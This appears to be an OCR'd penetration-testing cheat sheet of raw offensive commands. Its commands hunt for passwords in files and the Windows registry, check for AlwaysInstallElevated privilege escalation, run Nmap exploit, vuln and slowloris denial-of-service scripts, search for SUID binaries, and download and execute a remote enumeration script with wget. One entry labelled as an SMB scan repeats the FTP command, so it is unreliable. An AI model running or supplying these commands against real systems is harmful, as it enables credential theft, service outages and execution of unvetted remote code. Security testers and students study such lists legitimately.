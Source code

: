 DRIVERQUERY

reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated

reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated

dir /s pass == cred == vnc == .config

findstr /si password *.xml *.ini *.txt

reg query HKLM /f password /t REG_SZ /s

reg query HKCU /f password /t REG_SZ /s

Vulnerability Scanning with Nmap

Nmap Exploit Scripts
https://nmap.org/nsedoc/categories/exploit.html

Nmap search through vulnerability scripts
cd /usr/share/nmap/scripts/ ls -l \*vuln\*

Nmap search through Nmap Scripts for a specific keyword
ls /usr/share/nmap/scripts/\* | grep ftp

Scan for vulnerable exploits with nmap
nmap --script exploit -Pn $ip

NMap Auth Scripts
https://nmap.org/nsedoc/categories/auth.html

Nmap Vuln Scanning
https://nmap.org/nsedoc/categories/vuln.html

NMap DOS Scanning
nmap --script dos -Pn $ip NMap Execute DOS Attack nmap --max-parallelism 750 -Pn --script http-slowloris --script-args http-slowloris.runforever=true

Scan for coldfusion web vulnerabilities
nmap -v -p 80 --script=http-vuln-cve2010-2861 $ip

Anonymous FTP dump with Nmap
nmap -v -p 21 --script=ftp-anon.nse $ip-254

SMB Security mode scan with Nmap
nmap -v -p 21 --script=ftp-anon.nse $ip-254

File Enumeration

Find UID 0 files root execution

/usr/bin/find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld {} \\; 2&gt;/dev/null

Get handy linux file system enumeration script (/var/tmp)
wget <https://highon.coffee/downloads/linux-local-enum.sh> chmod +x ./linux-local-enum.sh ./linux-local-enum.sh

Find executable files updated in August
find / -executable -type f 2&gt; /dev/null | egrep -v "^/bin|^/var|^/etc|^/usr" | xargs ls -lh | grep Aug
